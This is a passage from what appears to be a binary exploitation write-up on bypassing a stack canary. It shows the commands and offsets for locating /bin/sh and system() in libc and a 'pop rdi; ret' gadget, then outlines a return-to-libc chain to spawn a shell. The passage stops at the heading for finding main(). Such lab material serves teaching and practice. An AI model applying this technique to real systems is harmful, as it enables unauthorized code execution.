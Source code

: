 ### Find /bin/sh offset from libc

```bash
strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep -i /bin/sh
```

![bin_sh_offset](assets/2019-07-16-canary_bypass.assets/bin_sh_offset.png)

Therefore, `/bin/sh` string address = libc_base + bin_sh_offset(`0x18ce57`)

### Find the system() base address

Similarly, as demonstrated earlier, we can use objdump to determine the `offset` of the system function from the libc base address.

```bash
objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep -i system
```

![system_function_offset](assets/2019-07-16-canary_bypass.assets/system_function_offset.png)

Therefore, `system` function address = libc_base + system_function_offset(`0x00000000000453a0`)

At this point, we have all information to call `system('\bin\sh')`.
However, the core issue is that we cannot control our input at this stage.

Therefore. if we jump back to `main()`, then again, we can control our input.

1. We need to replace `0xdeadbeef` with the address of `main()`.
2. We need to take control of the `rip` again through `canary` corruption, but this time, during stack step up, we call `system('\bin\sh')` directly instead of calling `puts()`.
3. In order to set the argument of `system` function, we need to load the address of the `/bin/sh` string into the RDI register.
4. As we already have the libc leak, therefore we can directly find the gadget - `pop rdi, retn` from libc.

```bash
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi" | grep "ret"
...
0x0000000000021112 : pop rdi ; ret
...
```

### Find the address of main()
